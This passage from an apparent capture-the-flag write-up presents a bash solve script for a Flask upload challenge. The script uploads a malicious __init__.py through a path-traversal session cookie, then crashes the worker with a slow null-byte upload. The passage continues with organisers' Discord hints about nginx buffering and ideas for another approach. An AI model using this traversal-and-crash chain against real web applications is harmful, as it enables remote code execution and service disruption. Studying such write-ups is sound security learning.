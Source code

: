 ```sh
#!/bin/bash

# run with ./solve-unintended.sh http://localhost:5000
#__init__.py payload should also be located in current directory
url=$1
echo $url

# Upload payload to /flask_session/__init__.py
curl -X POST $url \
     -H "Cookie: session=../../flask_session" \
     -F "file=@__init__.py;filename=__init__.py" \

# Generate a 1M file
truncate -s 1M nullbytes

# Upload 1M nullbytes file very slowly
curl -X POST $url \
     --limit-rate 1B \
-H 'Content-Type: multipart/form-data; boundary=---------------------------83051994911902789612622995941' \
 --data-binary $'-----------------------------83051994911902789612622995941\r\nContent-Disposition: form-data; name="file"; filename="nullbytes"\r\nContent-Type: application/octet-stream\r\n\r\n-----------------------------83051994911902789612622995941--\r\n' -v

echo "If it worked app should have crashed by now"

# Get the flag after payload execution
curl "$url/static/uploads/flag.txt"
```

This works locally but fails on the remote instance. 😱 

###### We made a ticket in the CTF discord (late into the night)

> **HestenettetDK — 17/03/2024 03:01**
>
> Best help I can give is that the challenge has solves, so :TryHarder:
>
> **Myldero — 17/03/2024 03:18**
>
> It should be noted that on remote, to get the individual instances to work, the challenge is put behind nginx. This may affect this solution. If you want a setup as similar as remote, you might need to put an nginx server in front

**Theory:** The NGINX instance buffers our slow curl upload of the nullbytes file before proxying it to the application, so the worker never hangs. 😥

#### Sticking at the unintended solution (17/03/24)

After sleeping on the issue we woke up with the thoughts, what if we mess with the session file or upload a ton of files so that a GET request would timeout just parsing filenames from `session['files']`?
